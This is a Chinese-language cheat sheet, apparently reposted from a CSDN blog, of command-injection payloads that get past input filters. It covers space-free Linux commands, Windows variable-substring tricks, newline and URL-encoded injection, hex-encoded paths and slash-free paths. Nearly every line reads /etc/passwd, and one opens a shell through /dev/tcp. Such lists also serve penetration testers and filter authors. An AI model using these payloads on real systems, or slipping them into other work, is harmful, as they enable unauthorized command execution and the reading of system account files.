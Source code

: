 原文链接:https://blog.csdn.net/freegotocpp/article/details/83273769

## 绕过 bypass

### Linux无空格

```
cat</etc/passwd
{cat,/etc/passwd}
cat$IFS/etc/passwd
echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
X=$'uname\x20-a'&&$X
sh</dev/tcp/127.0.0.1/4242
IFS=,;`cat<<<uname,-a`
;ls%09-al%09/home
```

### Windows

```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### 绕过回车

```
something%0Acat%20/etc/passwd
	
写文件
	
;cat>/tmp/hi<<EOF%0ahello%0aEOF
;cat</tmp/hi
hello
```

### 通过十六进制编码绕过

```
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
cat `xxd -r -p <<< 2f6574632f706173737764`
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```

### 绕过字符过滤器

```
没有反斜杠和斜杠的命令执行
cat ${HOME:0:1}etc${HOME:0:1}passwd
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
